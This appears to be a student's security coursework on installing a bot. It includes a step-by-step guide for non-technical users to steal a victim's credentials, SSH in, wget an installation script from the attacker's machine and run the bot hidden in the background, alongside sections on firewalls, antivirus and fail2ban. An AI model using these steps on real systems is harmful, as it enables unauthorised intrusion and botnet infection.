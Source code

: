 Create a software installation plan for the bot. It must:

outline THREE installation approaches for installation of the bot (approximately 100 words each)
1. Using social engineering and obtain an ssh session to install the bot
    - Perform an social engineering attack to obtain the credential from the victim. After getting the credential, we will ssh into the victim system. Setting up the script file at a server and download the script file at the ssh terminal of the victim machine. Run the script file will perform necessary step such as download bot, chmod the file and run the bot.
2. Provide a link which will download the file into the computer and run the script
    - Firstly find a game or software which the target would install to use. Intergrate the script file into the installation file and trick the user into download the file. When the user install the software would trigger the script which will download the bot file and install into the machine and run on background.
3. Search for an exploit to actually get the user credential and install the bots
    - Assume that the victim machine is vulnerable, we will find an exploit which will provide us with a shell of root access. Later on, we will manually insert all the necessary file such as downloading the bot and make it into a system file which will not be show normally. Then run the bot ourself and make it a background process so that it will not be notice.

determine ONE installation method to be used and create an ordered list of installation steps that a person with no technical expertise could follow (200 - 400 words)

The installation method that will be use the the 1st approacher where we will use social engineering and obtain an ssh session to install the bot. There is some minor point to be noted that social engineering may be consider legal in some case but unethical to perform it. Before we perform the installation, we will assume that the user already have the bot script file, the bot command server script, the installation script ready which do not need to change anything as well as the ip address or host name of the target.

Step to perform the installation of the bot:

Step 1: Firstly you need to identify the victim that you are targeting as well as which system you are targeting.
Step 2: Social engineering such as shoulder sniffing, man in the middle attack or other method to get username and password.
(Step 2 required soft skill as well as some basic technical skill depending on which technique you choose however in our following step we assume that the user already have the credential of the victim system)
Step 3: Open up the machine or computer that you would use to connect to the victim.
Step 4: Open up a terminal in the computer.
Step 5: Navigate to the folder that all the file already prepare and run the command of `python3 -m SimpleHTTPServer 9999` which will run a server for your file to be download
Step 6: Open up one more terminal, run `ifconfig` and find your own ip-address because it will be use later on. After that, run `./server_filename` in the folder where all the file located to run the server for the bot.
Step 7: Open up another terminal and run the ssh -h command to check if the package is install in the machine. If not you would need to install using `apt-get install ssh` in ubuntu machine or other have to research online. (The following step assume that all our user is using kali which have ssh come preinstalled) 
Step 8: Run `nmap IP-ADDRESS -p 22` in the terminal where the IP-ADDRESS is the ip address of the victim or hostname you are targeting
Step 9: When reading the report, if result say that port 22 is closed then just GIVE UP. (However we assume that victim already have ssh install) But if the ssh port or port 22 is open means that we can connect into the system.
Step 10: Run `ssh USER@IP-ADDRESS` where USER is the name of the target or try root and IP-ADDRESS is the target ip address. Assume the ip-address is 192.168.152.131 then the command will be `ssh root@192.168.152.131`
Step 11: When you run it will prompt for the password for the user root. Enter the password you found or the password for the user you found.
Step 12: Congratulation, you are now in the victim machine. You will need to navigate to the tmp folder with `cd /tmp/` and enter then enter the `pwd` command to check if you are at the tmp folder.
Step 13: Run the command `wget http://10.1.6.123/installation.sh` command to download the file into the machine assume that the ip address that you got from step 5 is 10.1.6.123
Step 14: step 13 will download a file from your machine to victim machine which if you run `ls` you will find the file is in there. Run the `chmod +x installation.sh` to give access for the file so that it can be execute.
Step 15: run the command of `./installation.sh` and it will download some file and start running the bot in the background.
Lastly: Run `ps aux | grep bot.py` you will see there is one process where the bot is running. (Notes: bot.py is the name of the file and can be depend on what file you have name it)

list the requirements for the client and server machines to run the bot (100 - 200 words)
- Server server 
    - require ssh capabilities
    - python3 installed
- Client Server
    - Have openSSH installed and port 22 is configure to be open by the firewall and allow connection
    - Have python3 package install in the machine
    - Have wget capabilities to download file into the machine
    - Have the access right to chmod for the file and run the file

outline of how at least TWO security features in a network can affect the installation of the bot (150 words each)
- Firewall
    - Firewall are configuration for the network incoming and outgoing connection. By default firewall do not allow incoming connection from many of the port. However firewall are more lenient when come to outgoing connection. If the system have been configure to close all port connection and do not allow any outgoing or incoming connection other than from the specify port then the bot installation and running would not be able to perfrom. Other than that, if the firewall do not allow ssh from unknown ip address which have not been configure into the configuration file mean that attacker would not be able to even ssh into the system.

- Access control
    - SSH might be configure to not allow direct root access using ssh connection. This may cause our connection to the system using only user acess grant and if the user do not have sudo right then it would not be able to chmod for the file because access control right may configure to disable most of the access right to secure the network. If the access right is deny, it would mean that we will not be able to install the bot into the machine.

Review the security requirements for the software installation plan you created in Instruction Step 1 for the bot host machine & control server, and determine if the client and server meet the requirements for installation by explaining how features of the client system may impact the operation of the bot (400 words).

Based on the installation method chosen, we assume that the credential that we obtain is only having normal user access and we will not be able to modify any software which required root access. Using the credential we obtain and by going through the ssh method step mention at question 1, we were able to ssh into the client machine. By ssh into the machine and download the installation script show that the client machine network security such as firewall do not block download from unknown host or ip which increase the chance of executing the bot. After running the installation script, it would install the bot and automatically run the bot on the background. WHen the bot runs, it should show the connection made at the server side and would also send back the command to the bots. We can assume that the requirement for both the client and server met. However, it doesn't mean that everything would be fine because there my be security protection at the client machine.

One of the potential client system feature would be anti-virus or anti-malware that detect the bot that is being installed or running in the background. Unless the bot is custom-made with unknown signature or pattern, the bot would be easily detected based on the signature or known pattern by the anti-malware which then the anti-malware would block the installation unless specify the bot being safe or modify using root access. Given that the nature of anti-malware would detect action that would harm the machine which if the command is just read file it might be detected however then the application execute the unistall or write function it may catch upon the command and block the access for the bot software. 

Other than that, a user level access right might not allow for running program on python(in our case our bot is programmed in python) where the installation may work but the program may not run. It may be that the root admin may have disable the user to run unwanted program which may cause harm to their system or simply the user have to right to access python. In some case where if the user is an accountant which only use application or software develop in C or other language, then it might not have any access right to run python program. Beside not having access right to run python, the user may not even have right to execute any program or install any program execpt the program allow by the administrative team or user have to sudo access. 

Last but not least, the system may have a monitoring system which will log the system activity log file and storing it for analysing. When there is program install by someone other than admin or some programing running on the background would immidiately being detected by the monitoring team and report to the security team. This may cause our bot to be stop or remove from the system.


Write a log which documents a security incident which you resolved by implementing your incident response plan. 

A security incident mean that there is potential threat or attack target toward the system and may or may not breach into the system network. For example a scenario, when someone perform multiple failed attempt to ssh into other network would mean that there is an incident happening which someone may be trying to bruteforce into a network system using ssh or it may be someone who forgot it's credentials. Security incident may be malicious or not and every incident would be research and analyse to determine it potential threat. 

When a security incident occur, the first thing to do would be to start analyse what is the cause of incident. One of the place which security person would need to do is to read the log. Log would store all the action or activity perform during the server up time. By analysing the log only would get more detail of where is the incident or how it is attacked. For the example from previous about someone perform ssh attack, there would be a log file which would log all the attempt of ssh to the server may it be successful or unsuccessful attempt. 
The log file which log all the authentication in `/var/log/auth.log` file and it would also specify which ip address and which account it is trying to access. When this incident it found, one of the way to solve this issues is to block the ip address which is trying to access the network for next 48 hour or we could ask the user to change the password to a stronger and longer password. 

As for future security incident, we could implement an automate software that would detect multiple failed attempt as ssh attack and would automatically block the ip address of the attacker such as using fail2ban. Fail2ban would ban the ip address of the attacker who fail to provide correct credential. One reason we do not ban the ip address forever because the ip address maybe own by other people after few month and is not the attacker. For more incident notification of ban, we can configure to have a daily report showing how is perform attack and log it as an informative alert rather than only ban and not notifying anything.
